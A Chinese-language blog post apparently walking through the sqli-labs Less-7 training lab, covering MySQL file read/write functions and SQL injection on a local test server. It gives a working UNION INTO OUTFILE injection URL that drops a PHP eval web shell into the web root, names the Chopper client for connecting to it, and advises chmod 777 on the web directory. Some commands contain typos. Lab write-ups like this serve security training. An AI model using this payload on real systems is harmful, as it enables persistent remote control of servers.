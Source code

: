 ```yaml
---
layout: post
title:  "0x03 mysql向外写shell"
date:   2020-04-14 16：44
categories: [pentest]
tags: sqli-labs
---
```

sqli-labs less7
<!-- more -->

## 文件读取

> sql读写文件读取条件：
>
> 1. 有权限并且文件完全可读
>
>    `and (select conut(*) from mysql.user)>0/*`如果返回正常，则具有读写权限
>
> 2. 文件在服务器上
>
> 3. 指定文件的绝对路径
>
> 4. 读取文件必须小于 max_allowed_packet
>
> 常用函数：
>
> * load_file('file_name') 读取文件并返回该文件的内容作为一个字符
> * load data infile 'filename' 高速地从文本文件中读取行，并装入表中
> * slect ... into outfile 'filename' 将被选择地行写入文件中

### less7

url

```mysql
http://127.0.0.1:9999/Less-7/?id=1'
```

报错信息

```mysql
You have an error in your SQL syntax
```

发现数据库的报错信息并没有显示在前端上，该关卡又提示我们使用outfile

查看这关的源码

```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font color= "#FFFF00">';	
  	echo 'You are in.... Use outfile......';
  	echo "<br>";
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	echo 'You have an error in your SQL syntax';
	//print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
```

按照教程到向外写文件时发现怎么都写不进去

```sql
http://127.0.0.1:9999/Less-7/?id=1%27))%20UNION%20SELECT%201,2,3%20into%20outfile%20%27/var/www/html/Less-7/1.txt%27%23
```

在数据库里面尝试写文件时报错

```mysql
mysql> select 1,2,(select @@version) into outfile '/var/www/html/Less-7/1.txt';
ERROR 1 (HY000): Can't create/write to file '/var/www/html/Less-7/1.txt' (Errcode: 13)
```

是因为www-data没有权限向/var/www写文件，所以直接改less-7权限就可以了

```bash
chmod -R 777 /vat/www/html/Less-7
```

然后就直接写shell

```mysql
http://127.0.0.1:9999/Less-7/?id=1')) union select 1,2,'<?php @eval($_POST[pass]);?>' into outfile '/var/www/html/Less-7/6.php' %23
```

然后用菜刀连接就可以了